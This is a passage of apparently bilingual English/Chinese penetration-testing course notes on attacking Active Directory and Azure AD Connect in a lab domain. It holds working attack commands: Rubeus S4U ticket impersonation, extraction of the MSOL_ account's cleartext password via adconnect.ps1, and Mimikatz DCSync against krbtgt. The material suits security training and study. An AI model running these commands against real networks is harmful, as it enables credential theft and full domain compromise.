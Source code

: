 Request and Inject the TGS by impersonating the user.
```
Rubeus.exe s4u /dc:us-dc.us.techcorp.local /ticket:doIGkDCCBoygAwIBBaEDAgEW... /impersonateuser:administrator /ptt /self /altservice:cifs/us-helpdesk
```

# Attacking Azure AD Integration

• An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:(使用Azure AD Connect，可以用以下方法将企业内部的AD与Azure AD集成。)

– Password Hash Sync (PHS)(密码哈希同步（PHS）)
– Pass-Through Authentication (PTA)(Pass-Through认证（PTA）)
– Federation(联盟？)

• Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!（Azure AD Connect安装在企业内部，在AD和Azure AD中都有一个高权限的账户!）


##  PHS

• It shares users and their password hashes from on-premises AD to Azure AD.（它将用户和他们的密码哈希值从企业内部的AD共享到Azure AD）
• A new users MSOL_ is created which has Synchronization rights (DCSync) on the domain!（一个新的用户MSOL_被创建，它在域上有同步的权利（DCSync）!）


枚举PHS账户和安装AD连接的服务器

使用PowerView
```
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```
使用ActiveDirectory module
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

- 我们已经以helpdeskadmin的身份对我们的adconnect有管理权限。
- 有了管理权限，如果我们运行adconnect.ps1，我们可以提取AD Connect使用的MSOL_账户的明文凭证
```
.\adconnect.ps1
```

With the password, we can run commands as MSOL_
```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

can execute the DCSync attack
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```
# Forest Root
